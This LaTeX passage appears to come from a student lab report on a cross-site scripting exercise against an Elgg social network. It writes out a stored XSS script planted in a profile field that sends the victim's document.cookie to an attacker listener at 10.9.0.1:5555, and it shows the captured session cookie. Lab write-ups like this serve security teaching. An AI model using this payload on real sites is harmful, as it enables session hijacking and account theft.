\section{Task 3: Stealing Cookies from the Victim's Machine}
%
\begin{figure}
    \centering
    
\includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/netcat_listening_cookie.png}
    \caption{User's cookie is sent to the attacker's server.}
    \label{fig:netcat_get_user_cookie}
\end{figure}

We embeded the script below to the field of \emph{Brief description} of Boby's profile:

\begin{lstlisting}[]
    <script>document.write(`<img src=http://10.9.0.1:5555?c=`
                            + escape(document.cookie) + ` >`);
    </script>
\end{lstlisting}

As you can see in \autoref{fig:netcat_get_user_cookie}, user's cookie now was sent to
the attacker's server at {\fontfamily{qcr}\selectfont 10.9.0.1}. The cookie was embeded
in the URL parameter. {\fontfamily{qcr}\selectfont \%3D} here is decoded to `='. It means
that the value of parameter {\fontfamily{qcr}\selectfont c}, \emph{Elgg\%3Dpkq5m1eiag30duldq393fog7lb},
can be decoded as \emph{Elgg=pkq5m1eiag30duldq393fog7lb}.